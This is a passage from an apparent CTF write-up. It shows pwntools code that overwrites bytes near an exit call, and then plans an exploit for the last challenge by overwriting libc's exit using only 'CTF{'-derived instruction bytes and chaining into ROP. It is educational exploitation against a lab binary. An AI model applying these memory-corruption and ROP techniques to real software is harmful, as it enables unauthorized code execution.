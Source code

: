 ```python
before_call_exit = elf_base + 0x143b
io.send(p(before_call_exit, 1))
io.send(p(before_call_exit+1, 1))
io.send(p(before_call_exit+2, 1))
io.send(p(before_call_exit+3, 2))

call_exit = elf_base + 0x1440
io.send(p(call_exit, 1))
io.send(p(call_exit+1, 1))
io.send(p(call_exit+2, 1))
io.send(p(call_exit+3, 2))

# force exit
io.sendline(b'asd')

io.interactive()
```

## Last challenge

This is the last and hardest challenge. Now we can no longer write inside the ELF. There is an if statement that checks if the entered address is not within the range of the binary. In other words, we must now read the flag by only writing within the libc.

We considered once again forcing an error within the libc to write the flag. The idea was to write to **`_IO_2_1_stderr_`** and change the **`_fd`** field to 1337. This would work... but we can't write the value 1337 directly. We can only write combinations of "C", "CT", "CTF" and "CTF{".

While my teammate @delcon_maki and I were trying to figure out what instructions we could create, we found something useful:

```python
r3tr0@pwnmachine:~$ python3
>>> hex(ord('C')), hex(ord('T')), hex(ord('F')), hex(ord('{'))
('0x43', '0x54', '0x46', '0x7b')

# 0x43 54 46 7b 43 54
#   C  T  F  {  C  T
r3tr0@pwnmachine:~$ rasm2 -ax86 -b64 -d 0x4354467b4354 
push r12
jnp 0x48
push rsp
```

The "jnp" instruction performs a jump if PF=0. With this, we can write an exploit following the following plan:

- Overwrite the first instructions of **`exit`** within the libc and skip the creation of the stack frame.
- Enter the adjacent function and wait until we reach the "ret" instruction.
- Write a ROP (Return-Oriented Programming) chain.
- Profit! :D
